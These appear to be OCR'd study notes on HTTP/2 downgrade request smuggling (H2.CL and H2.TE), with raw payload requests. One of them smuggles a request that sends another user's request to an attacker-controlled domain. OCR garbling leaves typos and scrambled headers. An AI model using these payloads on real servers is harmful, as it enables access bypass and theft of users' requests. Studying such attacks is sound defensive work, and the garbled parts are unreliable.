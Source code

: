 ```js
application/x-www-form-urlencoded

content-length

0

GET /admin HTTP/1.1 Host: vulnerable-website.com Content-Length: 10 x=1
```
**Back-End(HTTP/1)**
```js
`POST /example HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 0  
  
GET /admin HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 10  
  
x=1GET / H`
```


**eg. Payload**
```js
POST / HTTP/2
Host: vulnerabile.com
Content-Length: 0


POST /admin
Host: Ourdomain.com
Content-Length: 500

x=requestfromother user will send to our dmoains in this param

```

## H2.TE Vulnerabilities
- Chunked transfer encoding is incpmpatible with HTTP/2 and the spec recommends that any **Transfer-encoding: chunked** headerwe try to inject is `Striped` or ENtire request is blocked.
- if front-end server fails to do this & downgrade the request for HTTP/1 back-end that does support chunked encoding, this lead to smuggling attacks

**Front-end(HTTP/1)** 
```js
:method

POST

:path

/example

:authority

vulnerable-website.com

content-type

application/x-www-form-urlencoded

transfer-encoding

chunked
```